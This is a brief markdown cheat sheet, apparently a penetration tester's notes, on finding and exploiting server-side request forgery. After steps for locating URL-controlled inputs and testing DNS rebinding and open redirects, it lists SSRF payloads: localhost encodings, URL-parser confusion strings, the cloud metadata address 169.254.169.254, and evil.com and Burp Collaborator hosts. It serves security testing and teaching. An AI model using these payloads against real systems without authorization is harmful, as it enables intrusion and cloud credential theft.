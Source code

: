 
1. Find locations where you control the url
	1. Examples: PDF generators, pulling image files down, or even just parameters that call to files
2. When found:
	1. Test DNS rebinding: https://danielmiessler.com/blog/dns-rebinding-explained
	2. Open redirects, reuse an open redirect found in the SSRF to reach to external domains
	3. Use common SSRF payloads, use http or https:
		```
		- http://127.0.0.1:80
		- http://0.0.0.0:80
		- http://localhost:80
		- http://[::]:80/
		- http://spoofed.burpcollaborator.net
		- http://localtest.me
		- http://customer1.app.localhost.my.company.127.0.0.1.nip.io
		- http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
		- http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
		- http://127.127.127.127
		- http://2130706433/ = http://127.0.0.1
		- http://[0:0:0:0:0:ffff:127.0.0.1]
		- localhost:+11211aaa
		- http://0/
		- http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
		- http://127.1.1.1:80\@127.2.2.2:80/
		- http://127.1.1.1:80\@@127.2.2.2:80/
		- http://127.1.1.1:80:\@@127.2.2.2:80/
		- http://127.1.1.1:80#\@127.2.2.2:80/
		- http://169.254.169.254
		- 0://evil.com:80;http://google.com:80/
		```
3. More: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md

cheat sheet: https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet
